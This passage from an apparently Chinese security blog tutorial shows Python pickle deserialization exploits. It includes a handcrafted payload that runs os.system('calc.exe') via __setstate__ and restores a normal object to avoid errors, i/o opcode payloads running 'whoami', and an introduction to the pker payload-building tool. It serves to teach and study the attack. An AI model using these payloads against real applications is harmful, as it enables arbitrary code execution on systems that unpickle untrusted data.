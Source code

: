![](/blog_img/pickle6.png)
有一个可以改进的地方:这份payload由于没有返回一个Stu,导致后面抛出异常.要让后面无异常也很简单:执行完了恶意代码之后把栈弹到空，然后压一个正常Stu进栈.payload构造如下：
```
b'\x80\x03c__main__\nStu\n)\x81}(V__setstate__\ncos\nsystem\nubVcalc.exe\nb0c__main__\nStu\n)\x81}(X\x04\x00\x00\x00nameX\x03\x00\x00\x00VonX\x04\x00\x00\x00dateX\x08\x00\x00\x0020200405ub.'
```
这样就不会报错了.  
除此以外,我们还可以利用i,o操作码来进行函数执行.
``` python
#i操作码
b'''(S'whoami'
ios
system
.'''
#o操作码
b'''(cos
system
S'whoami'
o.'''
```
这些就不过多赘述了,详细的大家可以自己去看源码.  

# 神器pker
从上面的过程可以看出,自己手写序列化字符串是一件挺繁琐的事情,这时我们就需要一个神器pker来辅助我们了[Github地址](https://github.com/eddieivan01/pker)  
pker主要用到**GLOBAL**、**INST**、**OBJ**三种特殊的函数以及一些必要的转换方式,其他的opcode也可以手动使用：  
``` python
GLOBAL
用来获取module下的一个全局对象,对应操作码c
Eg:GLOBAL('os', 'system')

INST
建立并入栈一个对象(可以执行一个函数),对应操作码i
Eg:INST('os','system','ls')
输入:module,callable,para

OBJ
```